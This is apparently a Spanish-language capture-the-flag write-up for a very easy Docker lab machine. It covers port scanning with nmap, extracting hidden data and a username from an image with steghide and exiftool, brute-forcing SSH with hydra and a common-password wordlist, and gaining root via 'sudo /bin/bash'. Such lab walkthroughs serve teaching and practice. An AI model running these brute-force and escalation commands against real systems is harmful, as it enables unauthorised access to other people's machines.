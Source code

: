 ```yaml
---
Maquina: BorazuwarahCTF
SO: Linux
Explotación: Análisis de imágenes
Escala_privs: Permisos sudo
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - analisis_imagen
  - linux
  - escala_privs
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

![[Pasted image 20241019153105.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241019153217.png]]

3. **Vamos a descargar la imagen y pasar una herramienta de análisis de la imagen**:

```bash 
steghide extract -sf imagen.jpeg 
```

![[Pasted image 20241019153408.png]]

Como se puede apreciar, la herramienta ha encontrado un archivo dentro de la propia imagen y el archivo contiene lo siguiente:

![[Pasted image 20241019153524.png]]

Así que vamos a intentar revisar mejor la imagen con otra herramienta:

```bash 
exiftool imagen.jpeg 
```

![[Pasted image 20241019153620.png]]

Aquí encontramos un nombre de usuario con lo que podemos pasar a intentar acceder al SSH mediante fuerza bruta.

## Explotación:

4. **Acceso al SSH por Fuerza Bruta**:

Con el usuario borazuwarah, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l borazuwarah -P /home/alejandro/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt  ssh://172.17.0.2 
```

![[Pasted image 20241019154043.png]]

Listo, ya sabemos la contraseña del usuario borazuwarah -> 123456

![[Pasted image 20241019154520.png]]

Una vez dentro ya podemos pasar a la escala de privilegios.

5. **Escala de privilegios**:

Para ver los permisos que tenemos con el comando sudo podemos ejecutar:

```bash 
sudo -l
```

![[Pasted image 20241019154627.png]]

Como podemos apreciar se puede ejecutar /bin/bash como sudo.... Así que vamos a ejecutarlo.

```bash 
sudo /bin/bash
```

![[Pasted image 20241019154727.png]]